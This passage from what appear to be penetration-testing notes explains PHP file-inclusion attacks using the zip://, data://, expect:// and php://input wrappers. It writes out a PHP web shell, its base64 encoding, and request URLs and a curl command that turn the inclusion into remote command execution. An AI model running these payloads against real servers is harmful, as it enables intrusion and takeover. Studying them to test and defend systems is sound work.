 ```sh
echo -n '<?php system($_GET['c']); ?>' > shell.php
zip shell.jpg shell.php
```
```text
http://{{< param "war.rdomain" >}}/index.php?page=zip://shell.jpg%23shell.php
```

### data://

[data://](https://www.php.net/manual/en/wrappers.data.php) is a wrapper for [RFC2397](https://tools.ietf.org/html/rfc2397),
or `data://` scheme.
The scheme allows the inclusion of small data items
as if it had been included externally.
[^ietf-rfc2397]

PHP Shell Script.

```sh
echo -n '<?php system($_GET['c']); ?>' | base64
PD9waHAgc3lzdGVtKCRfR0VUW2NdKTsgPz4=
```
```text
http://{{< param "war.rdomain" >}}/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NdKTsgPz4=&c=ls
```

### expect://

[`expect://`](https://www.php.net/manual/en/wrappers.expect.php) wrapper provide access to processes'
`stdio`, `stdout` and `stderr`
via PTY.

```text
http://{{< param "war.rdomain" >}}/index.php?page=expect://ls
```

### php://input

[`php://input`](https://www.php.net/manual/en/wrappers.php.php#wrappers.php.input) is a read-only stream that allows to read raw data
from the request body.

```sh
curl -X POST --data "<?php echo shell_exec('ls'); ?>" "http://{{< param "war.rdomain" >}}/index.php?page=php://input%00" -v
```
## The `proc` File System

The `proc` file system (`procfs`)
contains a hierarchy of special files
that represent the current state of the kernel.
It acts as an interface
to internal data structures in the kernel
for applications and users.


[^owasp-path-traversal]: “Path Traversal - OWASP.” OWASP, https://wiki.owasp.org/index.php/Path_Traversal.
[^wiki-file-inclusion]: Contributors to Wikimedia projects. “File Inclusion Vulnerability - Wikipedia.” Wikipedia, the Free Encyclopedia, Wikimedia Foundation, Inc., 24 Nov. 2006, https://en.wikipedia.org/wiki/File_inclusion_vulnerability.
[^swissky-dt]: swisskyrepo. “PayloadsAllTheThings / Directory Traversal.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal.
[^unc-share]: “CWE-40: Path Traversal: ‘\\UNC\share\name\’ (Windows UNC Share) (4.1).” CWE -  Common Weakness Enumeration, https://cwe.mitre.org/data/definitions/40.html.
[^data-scheme]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^apache-log]: “Log Files - Apache HTTP Server Version 2.4.” Welcome! - The Apache HTTP Server Project, https://httpd.apache.org/docs/2.4/logs.html.
[^php-wrappers]: “PHP: Supported Protocols and Wrappers - Manual.” PHP: Hypertext Preprocessor, https://www.php.net/manual/en/wrappers.php.
[^ietf-rfc2397]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^kernel-proc]: “The /Proc Filesystem.” The Linux Kernel  Documentation, https://www.kernel.org/doc/html/latest/filesystems/proc.html.
[^route-lookup]: Bernat, Vincent. “IPv4 Route Lookup on Linux ⁕ Vincent Bernat.” MTU Ninja Vincent Bernat, https://vincent.bernat.ch/en/blog/2017-ipv4-route-lookup-linux.
[^linux-man-proc]: “Proc(5) - Linux Manual Page.” Michael Kerrisk - Man7.Org, https://man7.org/linux/man-pages/man5/proc.5.html.
[^ush-lfi2rce]: “LFI2RCE (Local File Inclusion to Remote Code Execution) Advanced Exploitation: /Proc Shortcuts.” Ush.It - a Beautiful Place, https://www.ush.it/2008/08/18/lfi2rce-local-file-inclusion-to-remote-code-execution-advanced-exploitation-proc-shortcuts/.